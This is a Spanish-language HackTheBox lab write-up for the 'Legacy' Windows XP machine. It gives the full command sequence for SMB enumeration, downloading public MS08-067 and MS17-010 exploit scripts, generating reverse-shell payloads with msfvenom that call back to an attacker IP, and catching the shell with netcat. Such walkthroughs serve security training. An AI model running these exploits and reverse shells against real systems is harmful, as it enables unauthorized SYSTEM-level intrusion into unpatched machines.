



HackTheBox
Easy
Windows
SMB
MS08-067
MS17-010
Legacy
Windows XP vulnerable a MS08-067 y MS17-010; explotacion directa a SYSTEM sin autenticacion previa.
cat4clysm
Herramientas utilizadas
nmap
searchsploit
msfvenom
netcat
Scanning
root@kali:~$
nmap -sC -sV -p139,445 -n -Pn 10.10.10.4 -oN targeted
Enumeracion SMB
root@kali:~$
smbmap -H 10.10.10.4
smbclient -N -L //10.10.10.4
nmap -p445 10.10.10.4 --script="smb-vuln*" -Pn
Explotacion - MS08-067
root@kali:~$
wget https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.pyroot@kali:~$
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -a x86 --platform windowsroot@kali:~$
python ms08-067.py 10.10.10.4 6 445
nc -lvp 443Alternativa - MS17-010
root@kali:~$
wget https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.pyroot@kali:~$
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=8888 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exeroot@kali:~$
python send_and_execute.py 10.10.10.4 shell.exe
Lecciones aprendidas
- Windows XP sin parchear es vulnerable tanto a MS08-067 como a MS17-010.
- nmap --script smb-vuln* es suficiente para identificar vulnerabilidades criticas en SMB.
- Editar el shellcode en exploits Python es una tecnica fundamental para personalizar payloads.